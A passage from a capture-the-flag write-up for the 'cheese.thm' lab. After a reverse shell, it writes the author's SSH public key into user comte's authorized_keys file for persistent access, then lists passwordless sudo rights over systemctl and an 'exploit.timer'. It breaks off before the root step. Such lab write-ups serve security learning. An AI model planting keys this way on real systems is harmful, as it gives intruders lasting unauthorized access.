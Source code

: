 ## User flag

#### Privilege Escalation

After getting the reverse shell, I noticed we have write access to the `authorized_keys` file for user `comte`.

This means we can add our own SSH key and get persistent, stable access as user `comte`.


Step 1: Generate SSH Key Pair.

On our machine:
```bash
ssh-keygen -t rsa
```
(Pressed Enter to use default settings)


Step 2: Copy Public Key.
```bash
cat ~/.ssh/id_rsa.pub | xclip -selection clipboard
```
This copies the public key to clipboard.

Step 3: Add Key to Target Machine.

In the reverse shell on the target:
```bash
echo 'OUR_SSH_PUB_KEY` > /home/comte/.ssh/authorized_keys
```

Step 4: Connect via SSH.
```bash
ssh -i ~/.ssh/id_rsa comte@cheese.thm   
```
Successfully logged in as user comte with stable SSH access!

Get the flag:
```bash
cat user.txt
THM{[REDACTED]}
```

## Root flag

1. Discovering Privilege Escalation Vector

After checking sudo permissions for user `comte`:
```bash
sudo -l

    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer
```
User can run these commands as root without password:
